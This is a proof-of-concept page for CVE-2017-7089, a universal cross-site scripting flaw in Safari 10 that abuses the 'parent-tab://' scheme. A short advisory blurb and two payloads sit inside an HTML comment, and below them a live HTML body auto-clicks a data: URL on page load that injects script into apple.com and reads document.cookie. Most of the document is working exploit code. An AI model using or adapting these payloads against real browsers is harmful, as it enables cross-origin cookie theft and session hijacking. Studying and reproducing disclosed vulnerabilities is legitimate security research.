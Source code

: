 XSS
---

    <!--
    # CVE-2017-7089

    **Impact**: Processing maliciously crafted web content may lead to universal cross site scripting

    **Description**: A logic issue existed in the handling of the parent-tab. This issue was addressed with improved state management.

    #### Safari 10

    ##### Local SOP bypass

    ```html
    <script> function Pew(){var doc=open('parent-tab://apple.com');doc.document.body.innerHTML='<img src=q onerror=alert(document.cookie)>';}</script><button onclick=Pew();>Click me!</button>
    ```
    ##### Exploit by Frans Rosén
    ```html
    data:text/html,<script>function y(){x=open('parent-tab://google.com','_top'),x.document.body.innerHTML='<img/src=""onerror="alert(document.cookie)">'};setTimeout(y,100)</script>
    ```
    -->

    <body onload=document.getElementById('pew').click()>
    <a id='pew' href='data:text/html,<script>function y(){x=open(&#x27;parent-tab://apple.com&#x27;,&#x27;_top&#x27;),x.document.body.innerHTML=&#x27;<img/src=""onerror=alert(document.domain);alert(document.cookie);>&#x27;};setTimeout(y,100)</script>'>hello</a>
    </body>